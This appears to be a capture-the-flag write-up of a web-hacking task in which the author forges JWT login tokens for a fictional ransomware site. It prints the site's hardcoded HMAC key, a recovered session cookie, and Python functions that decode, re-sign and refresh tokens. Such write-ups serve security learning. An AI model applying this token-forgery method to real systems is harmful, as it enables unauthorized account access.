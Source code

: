 # Task 6
## Category: Web Hacking/Redacted
### Prompt:
We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

Generate a new token value which will allow you to access the ransomware site.
### Provided Materials:
- None
### Task Goal:
- User level authentication token
### Steps:
To start, we have to figure out how new users are created. Looking at the source code acquired in task b2, we can see the function for generating a token in util.py:

```python
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```
The site uses JSON Web Tokens (JWTs) to authenticate it's users. From this function it's clear that there are four required claims:
1. iat (Issued At)
2. exp (Expiration)
3. uid (User ID)
4. sec (Secret)

as well as the HMAC key used in the HS256 encryption:
```python
def hmac_key():
	return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
```
The iat and exp claims are generated on token creation, so we only need to find a user's sec value and their UID.

In the previous task we got a netscape cookie that includes a JWT value:
```
# Netscape HTTP Cookie File
wiybrlehcuuflsbz.ransommethis.net    FALSE    /    TRUE    2145916800    tok    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI5MzkxMTIsImV4cCI6MTY1NTUzMTExMiwic2VjIjoiS3dvYmV3Y1daSEhocWVCVm9VTGVsMFVHeUh6VGF6YzgiLCJ1aWQiOjMyMzQyfQ.bpKQ81q5f035Huol1WSUAwwXXx_uVEoRGSi0Y-c2l_U
```

I wrote some python functions to help interact with the site:

```python
def get_hmac():
    return "v3e1sgmbRnCfBdSuUBEuXFQgPZgnlwum"
def create_token(iat, exp, uid, secret):
    return jwt.encode({'iat': iat, 'exp': exp, 'sec':secret, 'uid':uid,}, get_hmac(), algorithm='HS256')
def refresh_token(token):
    claims = decode_token(token)
    claims['exp'] = datetime.now()+timedelta(days=30)
    return create_token(claims['iat'], claims['exp'], claims['uid'], claims['sec'])
def decode_token(token):
    return jwt.decode(token, get_hmac(), algorithms=['HS256'], options={'verify_exp': False})
```

Using decode_token() on the token in the netscape cookie gives us the two claims for our compromised user:

![Alt text](../images/task_6_decoded.png "Screenshot of a python terminal showing the decode_token function in use")
Then we can either use the create_token function with the discovered claims or I wrote a function to simply refresh a given token.

![Alt text](../images/badge6.png "Badge for task 6")
